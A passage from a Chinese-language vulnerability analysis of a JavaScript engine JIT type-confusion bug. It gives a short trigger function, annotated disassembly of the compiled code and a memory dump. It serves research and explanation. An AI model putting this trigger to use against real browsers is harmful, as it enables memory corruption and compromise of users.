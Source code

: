 
<br>

**漏洞成因**

我们回过头再来看一下JIT代码，其实可以分为三段。



```
function func(a, b, c) `{`
a[0] = 2.3023e-320; //&lt;===1
b[0] = c;           //&lt;===2
    a[0] = 2.3023e-320; //&lt;===3
`}`
```

第一段，对应于func中的1 代码首先验证Array的类型是否为JavascriptNativeArray，之后验证segement是否可以容纳元素，之后就是进行赋值



```
0000019DA4D7016E  lea         rax,[rsi-108890h]  
0000019DA4D70175  cmp         qword ptr [r15],rax      //check vtable
0000019DA4D70178  jne         0000019DA4D70494  
0000019DA4D7017E  test        byte ptr [r15+18h],4  
0000019DA4D70183  je          0000019DA4D704CC  
0000019DA4D70189  mov         rax,qword ptr [r15+28h]  //rax=segment
0000019DA4D7018D  mov         ecx,dword ptr [rax+4]    //ecx=size
0000019DA4D70190  cmp         ecx,0                    //check size
0000019DA4D70193  jle         0000019DA4D704E6  
0000019DA4D70199  movsd       xmm6,mmword ptr [rdi+2CC0h]  
0000019DA4D701A2  movsd       mmword ptr [rax+18h],xmm6  
0000019DA4D701A8  mov         rcx,r14  
0000019DA4D701AB  shr         rcx,30h  
0000019DA4D701AF  jne         0000019DA4D70536  
0000019DA4D701B5  cmp         qword ptr [r14],rsi  
0000019DA4D701B8  jne         0000019DA4D70536  
0000019DA4D701BE  cmp         dword ptr [r14+20h],0  
0000019DA4D701C3  jle         0000019DA4D70550
```

此时内存数据如下:



```
0x00000205F8280660  00007ffd6f13f150  P?.o?...
0x00000205F8280668  00000205f8259140  @?%?....
0x00000205F8280670  0000000000000000  ........
0x00000205F8280678  0000000000010005  ........
0x00000205F8280680  0000000000000001  ........
0x00000205F8280688  00000205f82806a0  ?.(?....
0x00000205F8280690  00000205f82806a0  ?.(?....
0x00000205F8280698  00000205f6818930  0???....
0x00000205F82806A0  0000000100000000  ........
0x00000205F82806A8  0000000000000001  ........
0x00000205F82806B0  0000000000000000  ........
0x00000205F82806B8  0000000000001234  4.......
```
